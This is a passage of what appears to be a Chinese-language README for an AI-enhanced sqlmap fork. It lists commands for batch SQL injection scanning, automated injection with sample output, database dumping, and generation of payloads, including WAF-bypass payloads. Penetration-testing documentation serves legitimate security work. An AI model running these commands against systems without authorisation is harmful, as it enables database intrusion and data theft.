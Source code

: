4. **批量测试**
   ```bash
   # 从文件读取目标
   python sqlmap.py -m targets.txt --smart-payload --ai-analysis
   
   # 从Burp日志分析
   python sqlmap.py -l burp.log --smart-payload --ai-analysis
   ```

5. **增强版自动注入** *(改进功能)*
   ```bash
   # 基本用法
   python -m ai_module autoinject "http://example.com/page.php?id=1"
   
   # 示例输出
   [*] 开始扫描目标URL以寻找SQL注入漏洞...
   [*] 执行命令: python sqlmap.py -u http://example.com/page.php?id=1 --batch --level 3 --risk 2 --technique BEUSTQ --threads 3 --smart
   [+] 发现 1 个SQL注入点
   [*] 分析注入点: id参数存在MySQL布尔型盲注
   [+] 成功获取数据库版本: MySQL 5.7.32
   
   # 指定数据库类型
   python -m ai_module autoinject "http://example.com/page.php?id=1" --dbms mysql
   
   # 提取数据
   python -m ai_module autoinject "http://example.com/page.php?id=1" --dump
   
   # 自定义超时时间
   python -m ai_module autoinject "http://example.com/page.php?id=1" --timeout 600
   ```

   > **注意**: 如果遇到 `注入执行失败，返回码: 1` 错误，请检查以下几点：
   > - 确保SQLMap路径配置正确
   > - 检查目标URL是否可访问
   > - 尝试手动运行SQLMap命令进行测试
   > - 使用v1.2.0或更高版本，该版本修复了start()函数的相关问题

### AI CLI模式详解

在AI CLI模式下（通过 `--ai-cli` 启动），提供以下详细命令：

1. **payload命令**：生成SQL注入payload
   ```bash
   # 基本语法
   payload <数据库类型> <注入类型> [选项]
   
   # 示例
   sqlmap-ai> payload mysql union         # 生成MySQL联合查询注入
   sqlmap-ai> payload postgresql time     # 生成PostgreSQL时间盲注
   sqlmap-ai> payload oracle boolean      # 生成Oracle布尔盲注
   sqlmap-ai> payload mysql union --waf   # 生成绕过WAF的payload
   ```
